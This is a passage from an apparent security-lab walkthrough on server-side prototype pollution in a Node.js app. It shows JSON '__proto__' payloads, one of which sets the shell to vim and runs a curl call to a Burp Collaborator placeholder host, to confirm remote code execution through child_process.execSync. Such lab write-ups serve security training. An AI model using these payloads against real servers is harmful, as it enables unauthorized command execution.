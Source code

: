    ```json
   "__proto__": {
     "json spaces": 10
   }
   ```
2. Send the request.
3. In the Response panel, switch to the Raw tab. Notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.

---

### Probe for remote code execution

Go to the **admin panel** and observe that there's a button for running maintenance jobs.

<img width="1536" height="449" alt="image" src="https://github.com/user-attachments/assets/091108d4-736e-4566-9248-29356041cf52" />


Click the button and observe that this triggers background tasks that clean up the database and filesystem. This is a classic example of the kind of functionality that may spawn Node child processes.

<img width="1536" height="464" alt="image" src="https://github.com/user-attachments/assets/49d8fce6-27b8-4cce-b9ad-6c72aee56196" />


Try polluting the prototype with a set of malicious properties that control the options passed to the **child\_process.execSync()** method. The injected command should trigger an interaction with the public Burp Collaborator server:

```json
"__proto__": {
  "shell": "vim",
  "input": ":! curl https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

Send the request.

<img width="1454" height="648" alt="image" src="https://github.com/user-attachments/assets/f7bcbbba-488a-4c36-9c03-455c72b80846" />


After sending the request, go to the browser, go to the admin panel, and trigger the **maintenance jobs** to run.

<img width="1705" height="435" alt="image" src="https://github.com/user-attachments/assets/4a51720d-c953-49c5-b76d-778bd7a61d53" />


Observe that, after a short delay, these fail.


<img width="1522" height="676" alt="image" src="https://github.com/user-attachments/assets/76e7e0a7-8120-48eb-9233-6257677601b8" />


In Burp, go to the **Collaborator** tab and poll for interactions. Observe that you have received several interactions. This confirms the remote code execution.

<img width="1503" height="884" alt="image" src="https://github.com/user-attachments/assets/d98e064f-d81d-4060-a392-2eea7ae089ef" />
